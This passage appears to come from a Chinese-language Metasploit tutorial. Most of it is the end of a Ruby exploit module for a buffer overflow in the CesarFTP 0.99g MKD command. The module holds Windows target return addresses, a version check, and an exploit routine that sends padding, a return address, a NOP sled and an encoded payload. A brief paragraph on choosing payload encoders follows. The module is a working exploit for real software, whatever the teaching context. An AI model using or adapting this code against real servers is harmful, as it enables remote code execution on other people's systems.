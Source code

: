 ```
							'SymbolLookup' => 'ws2ord',
						}
				},
			'Platform'       => 'win',
			'Targets'        =>
				[
					[ 'Windows 2000 Pro SP4 English', { 'Ret' => 0x77e14c29 } ],
					[ 'Windows 2000 Pro SP4 French',  { 'Ret' => 0x775F29D0 } ],
					[ 'Windows XP SP2/SP3 English',       { 'Ret' => 0x774699bf } ], # jmp esp, user32.dll
					#[ 'Windows XP SP2 English',       { 'Ret' => 0x76b43ae0 } ], # jmp esp, winmm.dll
					#[ 'Windows XP SP3 English',       { 'Ret' => 0x76b43adc } ], # jmp esp, winmm.dll
					[ 'Windows 2003 SP1 English',     { 'Ret' => 0x76AA679b } ],
				],
			'DisclosureDate' => 'Jun 12 2006',
			'DefaultTarget'  => 0))
	end

	def check
		connect
		disconnect

		if (banner =~ /CesarFTP 0\.99g/)
			return Exploit::CheckCode::Vulnerable
		end
			return Exploit::CheckCode::Safe
	end

	def exploit
		connect_login

		sploit =  "\n" * 671 + rand_text_english(3, payload_badchars)
		sploit << [target.ret].pack('V') + make_nops(40) + payload.encoded

		print_status("Trying target #{target.name}...")

		send_cmd( ['MKD', sploit] , false)

		handler
		disconnect
	end

end
```

## 使用有效载荷

在使用有效载荷时，我们需要选择一个编码器，它不会触及某些寄存器，必须在最大尺寸以下，必须避开坏字符，并且应根据它们的排名进行选择。
